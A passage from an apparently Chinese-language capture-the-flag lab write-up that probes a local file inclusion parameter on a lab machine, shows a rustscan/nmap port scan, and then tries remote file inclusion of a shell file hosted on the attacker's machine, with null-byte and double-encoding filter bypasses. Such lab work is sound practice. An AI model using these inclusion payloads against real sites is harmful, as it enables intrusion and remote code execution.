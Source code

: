 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103370.png" alt="image-20250618083130745" style="zoom:50%;" />

```bash
http://192.168.10.129/?page=http%3A%2F%2F127.0.0.1%2Findex.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103371.png" alt="image-20250618090102104" style="zoom:50%;" />

发现应该是可以包含本地文件并解析的。。。。尝试进行上传文件，但是就是请求不到，不知道啥情况，难道允许 put 上传？

```bash
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ rustscan -a 192.168.10.129 -- -sCV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
You miss 100% of the ports you don't scan. - RustScan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.10.129:22
Open 192.168.10.129:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:8c:5a:5a:8b:43:a1:27:81:13:ff:b6:be:b5:c6:e5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKRu5jciIdNNmfTqr0lMfefa78S29x6BomOO1L4LTfrFsfTOU1UWH6rMhYOO6/lwUi6D16FBbDL7I3RciwoyX8w=
|   256 e4:73:84:da:df:18:e2:f2:db:5e:11:93:b5:d9:54:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILXqxoPabwLw5VBYwTrRzVaoDU7Z1YHyzSNLVwV3v3xO
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Hello World
MAC Address: 00:0C:29:A5:9B:0B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

发现也不能进行 put 上传，还是得尝试远程包含：

```bash
# http://192.168.10.129/?page=http://192.168.10.128:8888/shell.txt%00
http://192.168.10.129/?page=http%3A%2F%2F192%2E168%2E10%2E128%3A8888%2Fshell%2Etxt
# nonono~
http://192.168.10.129/?page=http%253A%252F%252F192%252E168%252E10%252E128%253A8888%252Fshell%252Etxt
# nonono~
```
